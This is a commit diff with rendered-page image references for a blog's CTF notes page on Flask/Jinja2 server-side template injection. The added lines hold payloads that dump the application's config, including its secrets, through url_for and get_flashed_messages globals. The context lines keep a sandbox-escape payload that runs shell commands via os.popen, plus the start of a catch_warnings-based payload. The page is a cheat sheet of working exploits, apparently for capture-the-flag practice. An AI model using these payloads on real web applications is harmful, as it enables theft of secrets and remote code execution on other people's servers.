

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/ctf/web/ssti.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
[ssti] add payload

````diff
--- a/docs/ctf/web/ssti.md
+++ b/docs/ctf/web/ssti.md
@@ -1,13 +1,17 @@
 
 
 ## flask ssti
+### 读配置
 
-### payload0
+```
+{{url_for.__globals__['current_app'].config}}
+{{get_flashed_messages.__globals__['current_app'].config}}
+```
+
 ```
 {{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls -r /*/*").read()')}}
 ```
 
-### payload1
 ```
 {% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
````
